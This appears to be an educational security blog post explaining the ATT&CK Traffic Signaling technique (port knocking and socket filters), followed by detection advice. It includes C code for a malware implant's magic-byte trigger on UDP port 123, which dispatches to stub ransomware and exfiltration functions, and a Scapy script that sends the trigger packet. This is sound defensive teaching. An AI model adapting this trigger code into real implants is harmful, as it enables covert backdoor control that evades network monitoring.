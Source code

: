 ```yaml
---
title: "What is Traffic Signaling?"
tags: "ATT&CK"
article_header:
  type: cover
  image:
    src: /images/mitreattack.png
cover: /images/trafficsignaling/cover.jpg
---
```


* Tactics: Defense Evasion, Persistence, Command & Control
* Purpose: To avoid detection when sending instructions to implants on compromised systems.

## Situation

An adversary compromises a system in a target environment and is able to execute a malicious implant. Rather than immediately beaconing out to command and control (C2) infrastructure, the adversary wants to minimize suspicious traffic to avoid detection by network monitoring defenses. One way for a backdoor to stay idle until triggered on demand is using Traffic Signaling, which involves sending a specially crafted or a combination of packets to the compromised device. 

## How it works

Packets may be sent from another compromised system, like an [internal proxy](https://attack.mitre.org/techniques/T1090/001/), or from attacker infrastructure if the implanted device is externally facing. The running process monitors inbound traffic for signals. The traffic signals may instruct the malware to do something that network defenses look for, like establishing a connection with C2 infrastructure. 

One way to monitor for incoming connections is by inspecting Netstat output periodically, but spawning a child process can be suspicious. This also limits the implant to only fully established connections without the ability to inspect the frame headers or data. If the malware has administrative priviliges, it can monitor all inbound traffic on the system using pcap libraries like `npcap` on Windows or `libpcap` on Linux or create raw sockets. This includes ports in use by other programs, allowing the signals to blend in with standard traffic like SSH, HTTP, or SMB.

### Port Knocking

One method adversaries have used to signal to the listening malware is Port Knocking, which involves sending a predefined sequence of packets to different ports on the compromised system. In the example below, a program uses `libpcap` to monitor incoming packets on the local network interface. If ten SYN packets arrive at increasing fibonacci port numbers from the the same source IP address in the span of 60 seconds, a "reverse shell" is spawned.

{% include image.html url="/images/trafficsignaling/nmap_portknocking.png" description="Two Nmap scans are initiated from another system - the first with a random Nmap scan order (default), and the second with 10 sequential fibonacci port numbers (using the -r flag)" percentage="80" %}
{% include image.html url="/images/trafficsignaling/portknocking.png" description="The implant is triggered when it detects the correct order" percentage="80" %}


### Socket Filters

Another way to send signals is by filtering for crafted packets with unusual characteristics or "magic bytes" embedded in the data. The payload may carry different signals, allowing additional control. In the following scenario, a program uses a raw socket to filter for inbound UDP packets on port 123 (NTP). When a "password" byte chunk is detected, the following ten bytes will signal which action the program should take.

~~~
// UDP port 123 packet received, checking data for signals
void check_byte_pattern(const char* udpData, int length) {
    const unsigned char passwordChunk[] = { 0x3A, 0xF1, 0xD2, 0x84, 0xB7, 0xC9, 0x5E, 0x6F, 0x12, 0xA3 };
    const int passLength = sizeof(passwordChunk);

    const unsigned char signal1[] = { 0x7B, 0x8C, 0x2D, 0x5F, 0xE6, 0x91, 0x4A, 0x0D, 0xF3, 0xC8 };
    const unsigned char signal2[] = { 0x1E, 0xA7, 0x9B, 0x05, 0xD4, 0x8F, 0x36, 0xC2, 0x7D, 0xE9 };
    const unsigned char signal3[] = { 0x52, 0xF8, 0x3C, 0x6B, 0x94, 0x0A, 0xE1, 0xD7, 0x2F, 0x8E };

    // Search every 10 byte chunk in the UDP data
    for (int i = 0; i <= length - passLength; i++) {
        // If the 10 byte chunk matches the passwordChunk
        if (memcmp(udpData + i, passwordChunk, passLength) == 0) {
            // If there are at least 10 more bytes after the target pattern
            if (i + passLength + 10 <= length) {
                printf("  Signal detected: ");
                print_hex(passwordChunk, passLength);

                printf("  Next ten bytes: ");
                print_hex((const unsigned char*)(udpData + i + passLength), 10);

                if (memcmp(udpData + i + passLength, signal1, 10) == 0) {
                    clean_presence();
                }
                else if (memcmp(udpData + i + passLength, signal2, 10) == 0) {
                    deploy_ransomware();
                }
                else if (memcmp(udpData + i + passLength, signal3, 10) == 0) {
                    exfiltrate_data();
                }
            }
            break;
        }
    }
}
~~~
{: .language-c}

The following Python script sends a UDP packet with the byte combo needed to trigger the `exfiltrate_data` method.

~~~
from scapy.all import IP, UDP, Raw, send
import random

target_ip = "192.168.56.1"
target_port = 123

payload = bytes([
    0x3A, 0xF1, 0xD2, 0x84, 0xB7, 0xC9, 0x5E, 0x6F, 0x12, 0xA3,
    0x52, 0xF8, 0x3C, 0x6B, 0x94, 0x0A, 0xE1, 0xD7, 0x2F, 0x8E
])

prefix = bytes([random.randint(0, 255) for _ in range(random.randint(10, 20))])
suffix = bytes([random.randint(0, 255) for _ in range(random.randint(10, 20))])
final_payload = prefix + payload + suffix

packet = IP(dst=target_ip) / UDP(dport=target_port) / Raw(load=final_payload)
send(packet, verbose=1)
~~~
{: .language-python}

{% include image.html url="/images/trafficsignaling/socket_filter.png" description="Socket filter received signal to exfiltrate data" percentage="80" %}

### Detective Measures

Monitor network traffic for abnormal connection combinations that do not follow standard flow patterns. Behavioral analytics solutions and stateful firewalls can perform some of this analysis. Create detections around malformed packets that do not conform to their destination port's application protocol structure, or packets that originate from the wrong source port (such as NTP datagrams that are not both to and from port 123). This may assist in finding covert signals attempting to blend in.

Alert on untrusted programs that create raw sockets (`AF_INET`,`SOCK_RAW`) or use packet filter libraries. On Windows, detect NDIS (Network Driver Interface Specification) driver installations using the `Get-NetAdapterBinding` PowerShell Cmdlet and monitor for `PF_PACKET` sockets on Linux.

## References

- [MITRE ATT&CK - Traffic Signaling](https://attack.mitre.org/techniques/T1205/)
- [MITRE ATT&CK - Port Knocking](https://attack.mitre.org/techniques/T1205/001/)
- [MITRE ATT&CK - Socket Filters](https://attack.mitre.org/techniques/T1205/002/)